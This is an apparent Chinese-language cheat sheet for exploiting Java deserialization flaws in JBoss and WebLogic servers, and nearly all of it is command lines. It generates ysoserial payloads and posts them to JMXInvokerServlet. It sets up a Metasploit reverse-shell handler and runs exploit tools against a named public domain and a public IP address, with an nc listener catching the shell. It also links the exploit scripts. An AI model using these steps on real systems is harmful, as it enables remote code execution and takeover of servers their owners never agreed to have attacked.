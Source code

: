 ## JavaDeserialization


###jboss：

#####一

```
▶ java -jar ysoserial-0.0.2-all.jar
Y SO SERIAL?  
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'  
    Available payload types:  
        CommonsCollections1 #jboss用這個我測試過一次可行  
        CommonsCollections2 #剩下的沒測試過  
        Groovy1  
        Spring1  

▶ java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'command' >/tmp/payload
▶ curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```

[ysoserial-0.0.2-all.jar](https://github.com/frohoff/ysoserial/releases)  

####二  

session 1:

```
▶ssh kali
root@Kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/shell/reverse_tcp
msf exploit(handler) > set LHOST 123.123.123.123
msf exploit(handler) > set LPORT 999
msf exploit(handler) > exploit
```

session 2:

```
▶ssh kali
root@Kali:~# java -jar JBossExploit.jar -lhost 123.123.123.123 -lport 999 -rhost baidu.com -rport 80 -srvport 4040
```

[JBossExploit](https://github.com/njfox/Java-Deserialization-Exploit)  

###weblogic：  

```
▶ javac -classpath commons-collections-3.2.jar Main.java
▶ java Main.class
▶ python weblogic.py 116.208.2.162 7001 /tmp/payload
▶ ssh kali
root@Kali:~# nc -vv -l -p 888
```

Main.java的作用是生成一個從url下載jar包的payload，jar包執行反彈shell。  
據說需要java1.6才可以編譯成功，eclipse黨表示未測試。

[commons-collections-3.2.jar](http://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.2.zip "Main.jar依賴包")  
[Main.java](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "TransformedMap的实现方式")  
[weblogic.py](https://github.com/schinkelg/JavaUnserializeExploits/blob/master/weblogic.py "自動添加包頭的修正腳本")

--

更多更多的鏈接：  
http://www.secpulse.com/archives/40420.html  
http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/  
https://github.com/foxglovesec/JavaUnserializeExploits  
https://github.com/njfox/Java-Deserialization-Exploit  
http://zone.wooyun.org/content/23905  